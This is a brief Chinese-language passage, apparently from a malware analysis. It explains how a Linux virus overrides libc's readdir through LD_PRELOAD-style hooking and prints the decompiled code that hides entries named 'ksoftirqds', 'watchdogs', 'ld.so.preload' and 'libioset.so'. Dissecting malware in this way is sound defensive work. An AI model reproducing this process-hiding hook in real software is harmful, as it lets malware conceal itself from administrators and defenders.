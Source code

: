 另外为了隐藏进程信息及相关的文件信息，该病毒通过hook方式对libc.so中的函数进行了重写。

如：

readdir函数

这里有一个do while结构

```
do

  `{`

    v4 = old_readdir(a1);                       // 使用readdir打开一个目录

    if ( v4 )

    `{`

      if ( (unsigned int)get_dir_name(a1, &amp;s1, 0x100uLL)// 调用getdirname

        &amp;&amp; !strcmp(&amp;s1, "/proc")

        &amp;&amp; (unsigned int)get_process_name(v4 + 19, &amp;v3)

        &amp;&amp; !strcmp(&amp;v3, "ksoftirqds") )

      `{`

        return 0LL;

      `}`

      if ( !strcmp(&amp;v3, "watchdogs") )

        return 0LL;

    `}`

    if ( v4 &amp;&amp; !strcmp((const char *)(v4 + 19), ".") )

      strcmp((const char *)(v4 + 19), "/");

  `}`

  while ( v4

       &amp;&amp; (strstr((const char *)(v4 + 19), "ksoftirqds")// 判断ksoftirqds是否是v4+19这个地址中的字符串的子集

        || strstr((const char *)(v4 + 19), "ld.so.preload")

        || strstr((const char *)(v4 + 19), "libioset.so")) );
```
